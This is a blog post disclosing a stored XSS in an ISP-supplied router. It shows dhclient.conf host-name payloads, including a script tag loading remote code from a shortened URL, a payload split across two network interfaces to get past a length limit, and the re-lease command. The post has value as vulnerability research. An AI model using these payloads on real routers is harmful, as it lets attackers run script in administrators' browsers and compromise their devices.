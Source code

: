 ```yaml
---
layout: post
title: Hacking into NET router for fun and profit [FULL DISCLOSURE] 
description: Again, another vulnerability on net router, but this time it's much more fun. 
keywords: router, disclosure, xss, G4mbl3r
disqus: true
tags: [XSS]
categories: Persistence
---
```

#### Hacking into NET router for fun and profit [FULL DISCLOSURE] 
Recently I moved to another city to live alone, and as needed I contract the only ISP available on my building, NET, one of the worst ISP on Brazil, they just decided to block all my output connections on port 22/ssh, but it's another history.

I have an history pwning [NET router](https://www.exploit-db.com/exploits/42284/), and as I was bored today and decided to play around with my brand new net router.

The first thing I tried on that was an command injection on ping function. It didn't work, but gave the output of what a sent, so I realized that was a lot of XSS possibilities on this router. The first place I tried, was on ping function again, but there was some control that did not allow me to sent especial characters, beyond that, it's not a good place to get a XSS, I needed a XSS stored on this precious router, and then a divine light open my mind, and made me test the first page of the router, where they show the DHCP leases. This page contains host name, ip address and mac address of each host so I thought maybe I could manipulate the host name of my host and sent a malicious data. In a simple Google search, I realized that I just need to change one line on dhclient config file (/etc/dhcp/dhclient.conf)

```bash
send host-name = "<script>alert('HACKED')</script>";
```

Sadly it didn't work. I opened the html source and saw that the last character wasn't there so I figured out that there was a limit on the host name size only 31 characters. Just to validate the XSS, I removed the HACKED string to force the lease and it works and then my saga started to get something more interesting then a alert().

I created a payload.js and hosted it on a VPS and tried a lot of techniques to make the content of this file executed by the browser, but none of then worked. I got close using the site [l.ly](https://l.ly) to short my url, but due the "XXX" character, it didn't work.

```bash
send host-name = "<script src=//l.ly/uXa></script>";
```

So I thought in buying a short domain like l.ly and host my payload file named as 1 and my problem would be resolved, but it's extremely expensive and I don't have money to do that. After hours thinking the best way to do that, I realized how stupid I am: the only thing I needed, is just another network interface, to create this output on the router.

```html
<tr><td>10</td><td><script src=//l.ly/uXa><!--</td><td>f4:96:34:25:65:c5</td><td>192.168.0.44</td></tr>
<tr><td>10</td><td>--></script></script</td><td>f4:96:34:25:65:c5</td><td>192.168.0.44</td></tr>
```

I just splitted the payload on my 2 interfaces, the first interface receives the follow payload,

```bash
send host-name = "<script src=//l.ly/uXa><!--";
```

Where I have the start of the payload, and a HTML comment, to ignore everything after my tag script, and the second payload,

```bash
send host-name = "--></script>";
```
I just closed the comment, and inserted the end of the tag script, I forced the interfaces to lease the ip address and request again, and then I finally got my XSS payload been executed.

```bash
dhclient -r && dhclient
```

![hacked](/assets/images/router-hacked.png "hacked")

#### About the router
Below is information about the router

|Description        | Version      	|
|-------------------| -------------:|
|Technology 		| docsis 3.0	|
|Hardware Version 	| V2.00			|
|Software Version 	| 09.89.17.23.03|

